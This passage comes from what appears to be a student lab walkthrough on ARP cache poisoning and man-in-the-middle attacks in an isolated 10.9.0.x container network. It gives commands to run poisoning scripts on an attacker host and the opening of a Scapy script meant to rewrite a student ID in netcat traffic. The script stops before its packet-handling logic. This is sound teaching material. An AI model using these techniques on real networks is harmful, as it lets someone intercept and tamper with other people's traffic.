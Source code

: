 **Phase 1: Setup and ARP Poisoning**

1.  **Ensure ARP Poisoning is Active:**
    *   Run the poisoning scripts again on Host M to be sure the caches on A and B are still poisoned (or haven't expired).
    ```bash
    # On Host M terminal
    sudo python3 poison_a.py
    sudo python3 poison_b.py
    ```
    *   *(Optional)* Verify ARP caches on A and B.

**Phase 2: Prepare the MITM Script for Netcat**

2.  **Create the Sniff-and-Spoof Script (`mitm_netcat.py`):**
    *   On **Host M**, create a file named `mitm_netcat.py`.
    *   Paste the following code. **Crucially, replace `"YOUR_STUDENT_ID_HERE"` with your actual student ID string.**

    ```python
    #!/usr/bin/env python3
    from scapy.all import *
    import sys # To flush output

    # --- IMPORTANT: REPLACE THIS WITH YOUR ACTUAL STUDENT ID ---
    student_id_str = "YOUR_STUDENT_ID_HERE"
    # --- IMPORTANT: REPLACE THIS WITH YOUR ACTUAL STUDENT ID ---

    # Convert student ID to bytes for replacement
    student_id_bytes = student_id_str.encode('utf-8')
    # Create replacement string of 'a's with the same length
    replacement_bytes = (b'a' * len(student_id_bytes))

    # Use values from settings.txt
    IP_A = "10.9.0.5"
    MAC_A = "02:42:0a:09:00:05"
    IP_B = "10.9.0.6"
    MAC_B = "02:42:0a:09:00:06"
    MAC_M = "02:42:0a:09:00:69" # Attacker MAC

    print("MITM Netcat Script Started...")
    print(f"Replacing '{student_id_str}' ({student_id_bytes.hex()}) with '{replacement_bytes.decode('utf-8')}' ({replacement_bytes.hex()})")
    sys.stdout.flush()
